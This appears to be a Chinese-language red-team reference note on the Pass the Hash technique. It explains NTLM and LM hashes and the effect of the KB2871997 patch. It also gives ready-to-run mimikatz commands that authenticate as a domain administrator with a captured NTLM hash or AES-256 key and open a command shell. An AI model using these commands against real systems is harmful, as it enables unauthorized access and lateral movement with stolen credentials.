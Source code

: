 ## Pass the Hash

[哈希传递](https://attack.mitre.org/techniques/T1075/)（Pass the hash, PtH）是一种无需知道用户的明文密码即可作为用户身份验证的方法。此方法绕过需要明文密码的标准身份验证步骤，而直接进入使用密码哈希的身份验证部分。此技术使用凭据访问技术捕获正在使用的帐户的有效密码哈希。捕获的哈希与 PtH 一起使用以验证该用户身份。 一旦通过身份验证，PtH 可用于在本地或远程系统上执行操作。

- 在 Windows 系统中，通常会使用 NTLM 进行身份认证。
- NTLM 认证不使用明文口令，而是使用口令加密后的 Hash 值，hash 值由系统 API 生成(例如 LsaLogonUser)。
- hash 分为 LM hash 和 NT hash，如果密码长度大于 15，那么无法生成 LM hash。从 Windows Vista 和 Windows Server 2008 开始，微软默认禁用 LM hash。
- 如果攻击者获得了 hash，就能够在身份验证的时候模拟该用户(即跳过调用 API 生成 hash 的过程)。

### mimikatz

```cmd
# ntlm hash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:HACK /ntlm:fed7b3afcb7565ad9e3584694bba77f8 /run:c:\windows\system32\cmd.exe"
# aes-256 <- KB2871997 已安装
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:HACK /aes256:<aes256> /run:c:\windows\system32\cmd.exe"
```

![](/assets/images/move/2020-07-05-11-36-51.png)

**KB2871997:**

微软在 2014 年 5 月发布了 KB2871997，该补丁禁止通过本地管理员权限与远程计算机进行连接，导致无法通过本地管理员权限对远程计算机使用 PsExec、WMI、smbexec、schtasks、at，同时也无法访问远程主机的文件共享等。
